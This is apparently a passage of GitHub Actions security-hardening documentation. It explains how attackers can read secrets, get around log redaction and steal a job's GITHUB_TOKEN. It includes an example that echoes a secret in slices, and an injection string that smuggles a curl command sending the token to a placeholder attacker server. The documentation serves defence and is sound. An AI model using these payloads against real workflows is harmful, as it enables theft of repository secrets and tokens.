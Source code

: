 **Note:** {% data variables.product.prodname_dotcom %}-hosted runners do not scan for malicious code downloaded by a user during their job, such as a compromised third party library.

{% endnote %}

{% endif %}

### Accessing secrets

Workflows triggered from a forked repository using the `pull_request` event have read-only permissions and have no access to secrets. However, these permissions differ for various event triggers such as `issue_comment`, `issues`, `push` and `pull_request` from a branch within the repository, where the attacker could attempt to steal repository secrets or use the write permission of the job's [`GITHUB_TOKEN`](/actions/security-guides/automatic-token-authentication#permissions-for-the-github_token).

* If the secret or token is set to an environment variable, it can be directly accessed through the environment using `printenv`.
* If the secret is used directly in an expression, the generated shell script is stored on-disk and is accessible.
* For a custom action, the risk can vary depending on how a program is using the secret it obtained from the argument:

  {% raw %}

  ```yaml
  uses: fakeaction/publish@v3
  with:
      key: ${{ secrets.PUBLISH_KEY }}
  ```

  {% endraw %}

Although {% data variables.product.prodname_actions %} scrubs secrets from memory that are not referenced in the workflow (or an included action), the `GITHUB_TOKEN` and any referenced secrets can be harvested by a determined attacker.

### Exfiltrating data from a runner

An attacker can exfiltrate any stolen secrets or other data from the runner. To help prevent accidental secret disclosure, {% data variables.product.prodname_actions %} [automatically redact secrets printed to the log](/actions/security-guides/using-secrets-in-github-actions#accessing-your-secrets), but this is not a true security boundary because secrets can be intentionally sent to the log. For example, obfuscated secrets can be exfiltrated using `echo ${SOME_SECRET:0:4}; echo ${SOME_SECRET:4:200};`. In addition, since the attacker may run arbitrary commands, they could use HTTP requests to send secrets or other repository data to an external server.

### Stealing the job's `GITHUB_TOKEN`

It is possible for an attacker to steal a job's `GITHUB_TOKEN`. The {% data variables.product.prodname_actions %} runner automatically receives a generated `GITHUB_TOKEN` with permissions that are limited to just the repository that contains the workflow, and the token expires after the job has completed. Once expired, the token is no longer useful to an attacker. To work around this limitation, they can automate the attack and perform it in fractions of a second by calling an attacker-controlled server with the token, for example: `a"; set +e; curl http://example.com?token=$GITHUB_TOKEN;#`.
